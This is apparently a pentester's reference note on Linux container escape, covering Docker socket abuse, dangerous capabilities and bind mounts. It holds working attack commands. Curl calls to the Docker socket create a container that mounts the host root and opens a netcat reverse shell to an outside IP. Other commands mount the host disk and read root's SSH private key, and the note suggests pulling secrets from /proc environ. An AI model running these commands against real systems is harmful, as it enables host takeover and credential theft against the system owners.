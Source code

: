 ```yaml
---
title: Linux Container Escape
---
```


Break out of insecure containers on [[notes/linux/index]].
Don't forget to check [[notes/linux/credential-access-user]] and [[notes/linux/privilege-escalation-kernel-exploits]].

Untested tools:

- [deepce](https://github.com/stealthcopter/deepce)

# Sockets

Sockets, e.g. for the Docker API, mounted into the container.

~~~ bash
ls -ld /{run,var/run}/{crio/crio,docker,dockershim,containerd/containerd,frakti,rktlet}.sock
find / -type s -ls 2> /dev/null
~~~

## Docker Socket Exploitation

List available images.

~~~
❯ curl -i -s --unix-socket /var/run/docker.sock http://localhost/images/json
[
  {
    "Containers": -1,
    "Created": 1590787186,
    "Id": "sha256:a24bb4013296f61e89ba57005a7b3e52274d8edd3ae2077d04395f806b63d83e",
    "Labels": null,
    "ParentId": "",
    "RepoDigests": null,
    "RepoTags": [
      "sandbox:latest"
    ],
    "SharedSize": -1,
    "Size": 5574537,
    "VirtualSize": 5574537
  },
  ...
]
~~~

Create a new container.

~~~
❯ curl -i -s --unix-socket /var/run/docker.sock -X POST -H 'Content-Type: application/json' -d @- http://localhost/containers/create << EOF
{
  "Image": "sandbox:latest",
  "Cmd": ["/bin/sh","-c","rm -f /tmp/s && mkfifo /tmp/s && cat /tmp/s | /bin/sh -i 2>&1 | nc 10.10.14.53 1332 > /tmp/s"],
  "DetachKeys": "Ctrl-p,Ctrl-q",
  "OpenStdin": true,
  "Mounts": [
    {
      "Type": "bind",
      "Source": "/",
      "Target": "/rootfs"
    }
  ]
}
EOF
{"Id":"461afb04cbc88e9a18b61f45e877648ef2dbd6dc3ad94505c2f403030516c227","Warnings":[]}
~~~

Start the container.

~~~
❯ curl -i -s --unix-socket /var/run/docker.sock -X POST http://localhost/containers/461afb04cbc88e9a18b61f45e877648ef2dbd6dc3ad94505c2f403030516c227/start
~~~

References:

- [Escaping the Whale: Things you probably shouldn't do with Docker (Part 1)](https://web.archive.org/web/20220528052412/https://www.secureideas.com/blog/2018/05/escaping-the-whale-things-you-probably-shouldnt-do-with-docker-part-1.html)

# Capabilities

Dangerous capabilities like `CAP_SYS_ADMIN`.

~~~ bash
grep Cap /proc/self/status
~~~

Decode the output with `capsh --decode=00000000a80425fb`.

References:

- [7 Ways to Escape a Container](http://web.archive.org/web/20230905200448/https://www.panoptica.app/research/7-ways-to-escape-a-container), exploitation of `SYS_ADMIN`, `SYS_PTRACE`, `SYS_MODULE`, `DAC_READ_SEARCH` and `DAC_OVERRIDE` capabilities

# Bind Mounts

Direct access to storage devices.

~~~ bash
mount | grep -e /dev/
ls -la /dev
~~~

This can be exploited by mounting the host rootfs.

~~~ bash
mount /dev/sda1 /mnt
cat /mnt/root/.ssh/id_rsa
~~~

If `mount` shows `proc on /proc type proc`, then `/proc` was bind-mounted into the container.
You can access the host rootfs trough `/proc/*/root/etc/passwd`.
Additionally you might be able to extract secrets from the host trough `/proc/*/cmdline` and `/proc/*/environ`.
